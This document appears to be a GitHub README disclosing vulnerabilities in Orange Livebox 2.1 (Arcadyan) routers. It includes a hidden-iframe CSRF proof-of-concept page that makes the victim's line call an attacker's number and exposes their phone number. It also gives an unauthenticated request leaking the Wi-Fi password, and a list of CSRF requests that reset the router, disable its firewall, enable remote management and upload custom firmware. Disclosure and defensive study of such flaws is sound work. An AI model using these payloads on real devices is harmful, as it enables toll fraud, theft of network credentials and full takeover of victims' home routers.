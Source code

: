 # LIVEBOX-0DAY
Arcadyan ARV7519RW22-A-L T VR9 1.2 Multiple security vulnerabilities affecting Latest frmware release on ORANGE Livebox 2.1 routers

Versión de Firmware:  00.96.320S (01.11.2017-11:43:44)
Versión del Boot:  v0.70.03
Versión del Módem ADSL: 5.4.1.10.1.1A
Versión de Hardware:  02



CWE-359: Exposure of Private Information ('Privacy Violation'). 

	A very serious attack vector allows an attacker to link CSRF drive-by vulnerabilities to exploit Autodialing and Line Test features, succesfully making calls from a victim's line, exposing a client's 	phone number and making him susceptible to scams and impersonation. Nuisance calls alone are also a serious concern.

	Proof of concept:


	<!DOCTYPE html>

	<!-- Phone number disclosure, reflected call exploit -->

	<html>

	<iframe style="display:none" id="csrf-frame-invisible" name="csrf-frame-invisible"></iframe>
	<form style="display:none" method='POST' action='http://192.168.1.1/cgi-bin/autodialing.exe' target="csrf-frame-invisible" name="csrf-form-invisible" id="csrf-form-invisible">
 	 <input type='hidden' name='autodialing_enable' value='1'>
 	 <input type='hidden' name='autodialing_number' value='5550150'> <!-- attacker's phone number goes here -->
 	 <input type='hidden' name='autodialing_timeout' value='0'>
 	 <input type='submit' value='Submit'>
	</form>

	<script>document.getElementById("csrf-form-invisible").submit()</script>

	<img src="http://192.168.1.1/cgi-bin/phone_test.exe" width="0" height="0" border="0">

	</html>


	When the victim visits the malicious site, it will create an autodialing profile on the victim's modem, and activate the Line Test feature. No interaction needed. The phone will ring, and when the call 		is answered the autodialing feature will call the attacker's number. 




CWE-200: Information Exposure: Unauthenticated configuration information leak.

	The webserver leaks access point security protocol, SSID, and password in plain text.
	GET http://192.168.1.1/get_getnetworkconf.cgi

	<html>
	<body>
	Orange-SSID<BR>
	PASSWORD<BR>
	255.255.255.0<BR>
	192.168.1.1<BR>
	0<BR>
	WPA<BR>
	<BR>
	</body>
	</html>



CWE-352: Cross-Site Request Forgery (CSRF): The web application does not, sufficiently verify whether a well-formed, valid, consistent request was intentionally provided by the user who submitted the request. Allows an attacker to manipulate all configuration parameters.

Integrity Impact 	Complete (There is a total compromise of system integrity. There is a complete loss of system protection, resulting in the entire system being compromised.)
Availability Impact 	Complete (There is a total shutdown of the affected resource. The attacker can render the resource completely unavailable.)
Access Complexity 	Low (Specialized access conditions or extenuating circumstances do not exist. Very little knowledge or skill is required to exploit. )
Authentication 		None. (The vulnerability does not require an attacker or user to be logged into the system). 
User interaction        None.

Examples:

	- Login with default admin:admin credentials after restoring configuration to factory settings. (This can be omited if the victim has an active session.)
	- Change default credentials.
	- Enable remote access.
	- Upload custom firmware to install remote access malware or brick the system.

	
	POST http://192.168.1.1/cgi-bin/restore.exe {empty body} Restores configuration to factory defaults.
	POST http://192.168.1.1/cgi-bin/firewall_SPI.exe {empty body} Disables all firewall protections.
	POST http://192.168.1.1/cgi-bin/setup_remote_mgmt.exe {IP1=FIRST_OCTET &IP2=SECOND_OCTET &IP3=THIRD_OCTET &IP4=FOURTH_OCTET &r_mgnt_port=_PORT } Allows remote administration. 
	POST http://192.168.1.1/cgi-bin/setup_pass.exe	{submit_action=0&userNew=admin&userOldPswd=admin&userNewPswd=NEWPASS&userConPswd=NEWPASS&timeout=0} Changes default password.
	POST http://192.168.1.1/cgi-bin/upgradep.exe Custom firmware update.




CWE-912: Hidden Functionality. The software contains functionality that is not documented, not part of the specification, and not accessible through an interface or command sequence that is obvious to the software's users or administrators. 

	Manual firmware update. Allows malware to be installed as described before.
	GET http://192.168.1.1/system_firmwarel.stm

